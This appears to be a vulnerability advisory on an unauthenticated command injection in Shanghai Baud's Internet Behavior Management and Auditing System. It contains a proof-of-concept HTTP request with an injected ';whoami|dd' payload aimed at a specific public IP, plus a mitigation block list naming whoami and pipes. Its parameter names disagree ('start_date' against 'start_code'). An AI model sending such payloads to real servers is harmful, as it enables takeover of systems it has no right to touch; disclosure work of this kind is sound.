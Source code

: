 # Vulnerability Title
Command Execution Vulnerability in Shanghai Baud DATA Communicatior Co., Ltd. Internet Behavior Management and Auditing System (`log_operate_clear`)

---

# Vulnerability Overview
The Internet Behavior Management and Auditing System of Shanghai Baud DATA Communicatior Co., Ltd. contains a high-risk command execution vulnerability. Attackers can exploit this flaw by crafting a malicious `start_code` parameter and leveraging the system's insufficient input validation. This allows arbitrary system commands to be executed in the `log_operate_clear` module located in the `/webui/modules/log/operate.mds` file, potentially allowing full control of the server. This vulnerability can be triggered without authentication and directly impacts the security of core business data and continuity.

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739197227657-765d4192-a9c0-4565-870b-aa2faac45291.png)

---

# Code Analysis
First, review the `index.php` file under `/webui`. This file accepts a `g` parameter via GET and assigns it to the `$get_url_param` variable.

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739198948787-62bd3b5f-f62e-45af-9071-a3e78b2a707a.png)

In the `/webui/modules/log/operate.mds` file, when the `$get_url_param` parameter equals `log_operate_clear`, a `start_code` parameter is passed via POST and filtered through the `formatpost` function before being assigned to the `$param['start_code']` variable.

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739198956561-fd74bc47-3f71-4a6b-bee5-4933a22231d6.png)

Let's take a look at the filtering function, located in the `/webui/login.html` file. Its primary function is to remove spaces, `--Null`, `<script>` tags, and backslashes from the input, and then apply `htmlspecialchars()` to convert the input into HTML entities.

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739198964923-97f22931-3b5d-4c3e-babd-9393554ebad4.png)

Returning to the previous section, once filtered, if `$param['start_code']` exists, it is split into an array by spaces. The first element of the array has its slashes replaced with hyphens and is assigned to `$p1`, the second element is assigned to `$p2`, and these are concatenated in the `exec` function. Since `$param['start_code']` is user-controllable, this leads to command execution.

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739198972521-3c5169e5-b69f-4268-87e0-bcd04ab24af5.png)

# Proof of Concept
## 1. **Exploitation PoC**
The following HTTP request can be used to verify the vulnerability:

```http
POST /webui/?g=log_operate_clear HTTP/1.1
Host: 220.170.188.4
Cookie: tree_active=1; USGSESSID=1920624b691e1671d9c6038c2a616c22
Cache-Control: max-age=0
Sec-Ch-Ua: "Not(A:Brand";v="99", "Google Chrome";v="133", "Chromium";v="133"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=0, i
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

start_date=2024/08/17;whoami|dd%20of=1.txt
```

**Result**:

+ The request successfully triggers command execution, writing the output of the `whoami` command to the `/webui/1.txt` file.
+ Visiting `http://220.170.188.4/webui/1.txt` confirms the command execution result (see screenshot).

## 2. **Code Analysis**
+ **Root Cause**: 
    1. The user-controlled `start_code` parameter is filtered using the `formatpost` function. However, the filtering logic only removes spaces, `<script>` tags, etc., and does not handle dangerous characters like pipe (`|`) and semicolon (`;`).
    2. The filtered parameter is split into an array, which is then concatenated and passed to the `exec` function, leading to command injection.
+ **Key Code Snippet**:

```php
// /webui/modules/log/operate.mds  
$param = formatpost($_POST);  
if (isset($param['start_code'])) {  
    $array = explode(' ', $param['start_code']);  
    $p1 = str_replace('/', '-', $array[0]);  
    $p2 = $array[1];  
    exec("clear_log $p1 $p2");  
}
```

## 3. **Reproduction Screenshots**
+ **Login Page**: [https://220.170.188.4/login.html](https://220.170.188.4/login.html)  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739197363417-a1fb750a-377a-49cd-b696-47ce260cbe49.png)
+ **Asset Proof**:

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739199209021-0be1f869-58a2-4764-8032-5ff0d2ee1a36.png)

+ **Command Execution Request**:  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739197384311-786571cd-60be-4932-885d-d0cf241f9ef3.png)
+ **Command Execution Result**:  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739197394694-a8a93adb-aacd-45e9-9558-05cf7682557f.png)

---

# Impact
1. **Complete Server Control**: Attackers can execute arbitrary commands (e.g., file reading/writing, process control) and fully take over the server.
2. **Sensitive Data Disclosure**: Command injection can be used to steal critical data such as user behavior logs, network configurations, database credentials, etc.
3. **Service Disruption Risk**: Malicious commands may cause system crashes or disable auditing features, affecting business continuity.
4. **Internal Network Lateral Movement**: Compromised servers can serve as a jumping-off point to attack other internal systems, expanding the attack surface.
5. **Legal and Compliance Risks**: This vulnerability violates the Cybersecurity Law and industry data protection regulations, potentially leading to regulatory penalties and reputation damage.

---

# Mitigation Strategy
1. **Input Filtering and Whitelist Mechanism**: 
    - Perform strict validation on the `start_code` parameter to prohibit dangerous characters like pipe (`|`) and semicolon (`;`).
    - Only allow valid values that conform to business logic (e.g., date format `YYYY/MM/DD`).
2. **Code-Level Fixes**: 
    - Use `escapeshellarg()` or `escapeshellcmd()` to handle external inputs, preventing direct command concatenation.
    - Replace the `exec` function with a more secure alternative (e.g., limiting command scope or using a dedicated log cleaning API).
3. **Minimal Privilege Principle**: 
    - Run the web service process with a non-privileged user, ensuring it does not have root or administrator privileges.
4. **Deploy Web Application Firewall (WAF)**: 
    - Configure rules to block requests containing sensitive keywords like `whoami`, `dd`, pipe symbols, etc.
5. **Security Auditing and Monitoring**: 
    - Regularly scan the system using automated tools (e.g., Nuclei, Nessus) for vulnerabilities.
    - Monitor server logs for abnormal command execution patterns (e.g., frequent calls to `clear_log`).

